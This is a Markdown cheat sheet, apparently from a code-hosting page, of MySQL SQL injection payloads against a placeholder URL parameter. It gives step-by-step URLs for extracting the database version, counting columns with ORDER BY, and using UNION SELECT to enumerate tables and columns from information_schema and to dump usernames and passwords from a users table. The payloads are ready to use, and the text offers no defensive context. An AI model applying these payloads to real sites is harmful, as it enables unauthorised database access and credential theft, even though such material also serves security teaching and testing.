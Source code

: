 # For MYSQL DATABASE

## Extracting Database Version:
- http://example.com/page.php?id=1' AND 1=CONCAT(0x3a, DATABASE(), 0x3a)--
- http://example.com/page.php?id=1' AND 1=CONCAT(0x3a, @@version, 0x3a)--

## Union-Based SQL Injection (Extract Data):

#### Find the Number of Columns:
- http://example.com/page.php?id=1 ORDER BY 1--
- http://example.com/page.php?id=1 ORDER BY 2--
- http://example.com/page.php?id=1 ORDER BY 3--

If the query returns an error like:

  Unknown column '3' in 'order clause'
  Then you know that the maximum number of columns is 2.

#### Extracting Data Using UNION:
  Once you know the number of columns, you can union your query with the SELECT statement to retrieve data. For example:

- http://example.com/page.php?id=1 UNION SELECT null, username, password FROM users--

Such as I have 5 columns so:
- http://example.com/page.php?id=1 UNION SELECT NULL, username, password, NULL, NULL FROM users--

#### Retrieving Table Names:
Once you have access to the database, you can list the tables in the current database:

- http://example.com/page.php?id=1 UNION SELECT null, table_name, null FROM information_schema.tables WHERE table_schema=DATABASE()--


#### Retrieving Column Names:
To identify which columns to target, you can enumerate the column names for a specific table:

- http://example.com/page.php?id=1 UNION SELECT null, column_name, null FROM information_schema.columns WHERE table_name='users'--
This will return all column names in the user's table.

#### Dumping Data:
Now that you know the column names, you can dump the data. For example:

- http://example.com/page.php?id=1 UNION SELECT null, username, password FROM users--
This will dump usernames and passwords from the user's table.


#### Additional Techniques
Extracting current user:

- http://example.com/page.php?id=1' UNION SELECT null, user(), null--
This will give you the current MySQL user.

#### Extracting database name:

- http://example.com/page.php?id=1' UNION SELECT null, database(), null--

